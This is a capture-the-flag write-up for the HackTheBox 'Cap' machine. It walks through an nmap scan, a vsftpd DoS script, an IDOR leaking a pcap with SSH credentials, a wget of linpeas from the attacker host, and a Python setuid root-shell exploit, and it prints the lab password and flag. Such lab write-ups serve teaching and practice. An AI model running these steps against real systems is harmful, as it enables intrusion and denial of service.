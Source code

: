 ```yaml
---
Category: 
Difficulty: Easy
Platform: HackTheBox
status: 
tags:
  - IDOR
  - LinPEAS
  - Burp-Suite
  - Whireshark
  - Linux
  - SetUID
---
```


>[!quote]
>Challenge description

# Plan



# Information Gathering

## Active Scanning - T1595
Use nmap for scan
```bash
sudo nmap -vvv -Pn -sCV -p-65535 --reason -oN cap.nmap 10.10.10.245
```

Discover port: 80 - HTTP, 22 - SSH, 21 - FTP

## Gather Victim Host Information. Software - T1592.002
Access FTP with user "anonymous" with password leave blank:

```bash
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
80/tcp open  http    syn-ack ttl 63 Gunicorn
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn
```

Version of FTP machine used is **vsFTPd 3.0.3**:
- Use search port with `searchsploit` 

![[Hackthebox/attachments/Cap-2.png]]

Display content of exploit 49719
```bash
searchsploit 49719
```

![[Cap-3.png]]

![[Cap-4.png]]

But script error:

![[Cap-5.png]]

So i will use scipt is customed on github
```bash
git clone https://github.com/kuppamjohari/vsftpd-3.0.3-DoS.git
```
# Initial access
## Compromise Software Supply Chain - T1195.002
Implemant script to error dos of block legitial user:
```bash
python3 vsftpd-3.0.3-DoS/vsftpd3-0-3-DoS.py 10.10.10.245 21 44
```

![[Cap-6.png]]

When it's limited, just run this script from different proxies using proxychains, and it will work
addition line ip attack
```bash
sudo vim /etc/proxychains4.conf
```

![[Cap-7.png]]


## Software Deployment Tools - T1072
Cannot implement ftp

![[Cap-9.png]]

# Access Web 
![[Pasted image 20250808150357.png]]
## Bug 1

>[!bug] 
> Normal users start downloading from`index 1`, but they can manually access`index 0` and download `0.pcap`, which contains credentials. These credentials can be used to access FTP and SSH.


access ssh with username is `nathan` and password `Buck3tH4TF0RM3!`

Then start web server port 9000 on local with command
```bash
python3 -m http.server 9000
```

another machine want to download file so use command

```bash
wget http://10.10.14.43:9000/linpeas.sh
```

Change permission  `execute` for file `linpeas.sh`

```bash
chmod +x linpeas.sh
```

Run tool and record in file `linpeas.txt`

```bash
./linpeas.sh > linpeas.txt
```

First, I want to check for errors related to `setuid`.

![[Cap.png]]

## Bug 2

>[!bug]
> User Identification Variables
> [euid, ruid, suid - HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/euid-ruid-suid.html)

So check id

![[Bug-Bounty Hunting & Web Security Testing/attachments/Cap-1.png]]

![[Bug-Bounty Hunting & Web Security Testing/attachments/Cap-2.png]]

So now write script python `exploit.py`to set value for uid equal `0` this is root

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

Run script and get flag

```bash
python3 exploit.py
cat /root/root.txt
```

``
# Flag

>[!success] Flag
> `a7627e5d94e261490903b6bd8d183e0f`

